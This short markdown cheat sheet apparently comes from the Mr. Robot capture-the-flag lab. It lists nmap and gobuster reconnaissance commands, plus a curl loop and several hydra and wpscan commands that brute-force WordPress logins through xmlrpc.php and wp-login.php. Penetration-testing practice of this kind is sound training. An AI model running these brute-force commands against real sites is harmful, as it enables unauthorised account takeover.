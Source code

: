 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=
gobuster dir -u HTTP://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### A LOTL attack 
```bash
username="admin"
password="password"
for pass in $(cat passwords.txt); do curl -s -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>$username</value></param><param><value>$pass</value></param></params></methodCall>" http://10.10.6.115/xmlrpc.php | grep -q 'Incorrect username or password.' || echo "Found credentials: $username:$pass"; done
```
### How to bruteforce input fields with hydra
Username
```bash
IP_ADDR=
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
hydra -L fsocity.di -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:Invalid Username" -t 30
```
Password
```bash
IP_ADDR=
hydra -L example -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you enter for the username" -t 30
hydra -l elliot -P fsocity.dic 1$IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```
